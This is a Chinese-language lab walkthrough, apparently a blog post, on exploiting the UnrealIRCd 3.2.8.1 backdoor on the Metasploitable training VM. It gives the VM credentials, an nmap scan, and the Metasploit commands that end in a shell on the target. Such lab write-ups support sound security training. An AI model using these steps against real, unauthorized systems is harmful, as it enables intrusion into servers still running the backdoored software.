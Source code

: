 ```yaml
---
title: unreal_ircd_3281_backdoor漏洞
categories:
- 漏洞
tags:
- msf
updated: 2018-05-16
---
```


- Metasploitable漏洞演练系统 是Metasploit团队维护的一个集成了各种漏洞弱点的Linux主机(ubuntu)镜像,这方便大家对于msf的学，以下以6667端口的unreal_ircd_3281_backdoor进行攻击。

  可以在虚拟机中启动（登录密码和账号都是msfadmin）

  <img src="{{ site.url }}/assets//blog_images/unreal_ircd_3281_backdoor_01.png"/>

  

  ```c++
  查看ip    ifconfig
  ```

  <img src="{{ site.url }}/assets//blog_images/unreal_ircd_3281_backdoor_02.png"/>

  

  - 地址为：192.168.127.145

     然后在kali linux中进行渗透：

     启动msf

     

    <img src="{{ site.url }}/assets//blog_images/unreal_ircd_3281_backdoor_03.png"/>

  

   

  ```
    然后nmap 192.168.127.145查看开放端口
  ```

    exec: nmap 192.168.127.145
  Starting Nmap 7.70 ( https://nmap.org ) at 2018-05-05 13:29 CST
  Nmap scan report for 192.168.127.145
  Host is up (0.00015s latency).
  Not shown: 977 closed ports
  PORT     STATE SERVICE
  21/tcp   open  ftp
  22/tcp   open  ssh
  23/tcp   open  telnet
  25/tcp   open  smtp
  53/tcp   open  domain
  80/tcp   open  http
  111/tcp  open  rpcbind
  139/tcp  open  netbios-ssn
  445/tcp  open  microsoft-ds
  512/tcp  open  exec
  513/tcp  open  login
  514/tcp  open  shell
  1099/tcp open  rmiregistry
  1524/tcp open  ingreslock
  2049/tcp open  nfs
  2121/tcp open  ccproxy-ftp
  3306/tcp open  mysql
  5432/tcp open  postgresql
  5900/tcp open  vnc
  6000/tcp open  X11
  6667/tcp open  irc
  8009/tcp open  ajp13
  8180/tcp open  unknown

  MAC Address: 00:0C:29:E4:E7:DD (VMware)

  因为作为靶机，所以端口自然就是很多，但是在实际中，不可能开放这么多的端口的。

  然后我们要利用的是

  6667端口之unreal_ircd_3281_backdoor

  所以搜索： search unreal_ircd_3281_backdoor

- <img src="{{ site.url }}/assets//blog_images/unreal_ircd_3281_backdoor_04.png"/>



```c++
然后使用：   use exploit/unix/irc/unreal_ircd_3281_backdoor
```

<img src="{{ site.url }}/assets//blog_images/unreal_ircd_3281_backdoor_05.png"/>



```c++
再执行show options
```

<img src="{{ site.url }}/assets//blog_images/unreal_ircd_3281_backdoor_06.png"/>

- ```
  设置攻击机：set RHOST 192.168.127.145 
  ```

  <img src="{{ site.url }}/assets//blog_images/unreal_ircd_3281_backdoor_07.png"/>

  `然后执行：exploit`

  

    	

  <img src="{{ site.url }}/assets//blog_images/unreal_ircd_3281_backdoor_08.png"/>

  权限就已经拿到了：

<img src="{{ site.url }}/assets//blog_images/unreal_ircd_3281_backdoor_09.png"/>